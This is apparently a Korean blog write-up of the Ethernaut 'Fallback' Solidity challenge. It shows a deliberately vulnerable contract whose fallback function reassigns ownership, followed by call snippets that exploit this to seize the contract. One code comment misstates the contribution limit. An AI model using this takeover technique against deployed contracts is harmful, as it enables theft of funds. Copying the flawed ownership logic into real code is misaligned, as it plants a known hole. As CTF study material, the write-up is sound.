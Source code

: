 +++
title = "0x01. Fallback"
description = "Ethernaut"
date = 2023-07-12
toc = true

[taxonomies]
categories = ["Ethernaut"]
tags = ["Solidity", "Ethereum", "Foundry"]

[extra]
math=true
+++

# 📄 코드 분석

```solidity
contract Fallback {
    using SafeMath for uint256;
    mapping(address => uint256) public contributions;
    address payable public owner;

    // 컨트랙트를 배포하는 순간, `owner` 는 `1000 eth`를 기여한 것으로 기록됨
    constructor() public {
        owner = payable(msg.sender); // Type issues must be payable address
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    // `0.001` ether 이상을 함께 보내면, `contribution` 에 해당 금액을 더해서 기록해둠
    // 만약 `owner` 보다 더 많은 금액을 기여했다면 새로운 owner 가 됨
    function contribute() public payable {
        require(msg.value < 0.001 ether, "msg.value must be < 0.001"); // Add message with require
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = payable(msg.sender); // Type issues must be payable address
        }
    }

    // `contribution` 을 조회하는 함수
    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    // 컨트랙트에 존재하는 `eth`를 출금하는 함수
    // 오직 `owner`만 호출할 수 있음
    function withdraw() public onlyOwner {
        owner.transfer(address(this).balance);
    }

    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require
        owner = payable(msg.sender); // Type issues must be payable address
    }
}
```

---

# 💣 취약점
- `Fallback` 함수에서 `owner`를 변경하므로, `fallback`을 호출하기만 하면 문제를 풀 수 있음을 알 수 있습니다.
```solidity
    // `fallback` 함수
    fallback() external payable {
        // naming has switched to fallback
        require(
            msg.value > 0 && contributions[msg.sender] > 0,
            "tx must have value and msg.send must have made a contribution"
        ); // Add message with require

        // owner 변경
        owner = payable(msg.sender); // Type issues must be payable address
    }
```
- [Solidity Docs](https://docs.soliditylang.org/en/v0.8.20/contracts.html#fallback-function)에 따르면, `Fallback`함수는 아래의 경우 호출할 수 있습니다.
> - <txtred>존재하지 않는 function</txtred>을 호출하는 경우
> - <txtylw>*receive*</txtylw> 함수가 없을 때, `eth`를 보내는 트랜잭션을 받은 경우
> - `msg.data`에 값이 존재하는 경우

- 따라서, 아래와 같은 방법으로 `fallback`을 호출할 수 있습니다.

```solidity
// 1. 잘못된 function signature 로 fallback 함수를 호출
bytes memory payload = abi.encodeWithSignature(
    "wrong_signature(uint256)",
    payable(address(ethernautFallback)),
    10 wei
);
payable(address(ethernautFallback)).call{value: 1 wei}(payload);

// 2. `ether` 를 보내는 트랜잭션으로 fallback 함수를 호출
payable(address(ethernautFallback)).call{value: 1 wei}("");
```

---
